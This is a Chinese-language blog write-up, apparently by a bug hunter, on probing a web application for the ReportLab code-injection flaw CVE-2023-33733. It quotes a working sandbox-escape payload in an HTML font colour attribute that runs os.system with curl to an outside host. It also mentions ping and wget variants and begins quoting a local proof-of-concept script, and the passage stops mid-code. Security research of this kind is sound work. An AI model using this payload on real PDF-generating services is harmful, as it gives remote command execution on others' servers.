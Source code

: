 在阅读Elyas的文章后，白帽子开始尝试理解这个payload，虽然阅读起来有难度，但通过 python 控制台来逐行执行它，对于后来的理解很有帮助。

在确认了使用reportlab库之后，白帽子使用了以下payload来确认它是否确实使用了存在漏洞的版本：

    
    
    <para>
    
                  <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('curl https://myhost.com') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    
                    exploit
    
                    </font>
    
                </para>
    
    generic
    
    515 Bytes
    
    © Guge's Blog

它并没起作用，pdf 已成功生成，但没有 pingbacks
发送到研究人员的服务器。而后白帽子将curl命令更改为ping，wget，希望至少能够获得DNS交互，但依然失败。

这时白帽子开始怀疑应用程序是否真的使用了存在漏洞版本的库，在找到这个答案前，只能通过本地设置来完成了。

白帽子使用 Elyas
存储库中易受攻击的代码，以帮助他可以在本地确认该漏洞：https://github.com/c53elyas/CVE-2023-33733/blob/master/code-
injection-poc/poc.py

    
    
    from reportlab.platypus import SimpleDocTemplate, Paragraph
    
    from io import BytesIO
    
    stream_file = BytesIO()
    
    content = []
    
    def add_paragraph(text, content):
    
        """ Add paragraph to document content"""
    
        content.append(Paragraph(text))
    
    def get_document_template(stream_file: BytesIO):
    
        """ Get SimpleDocTemplate """
    
        return SimpleDocTemplate(stream_file)
    
    def build_document(document, content, **props):
    
        """ Build pdf document based on elements added in `content`"""
    
        document.build(content, **props)
    
    doc = get_document_template(stream_file)
    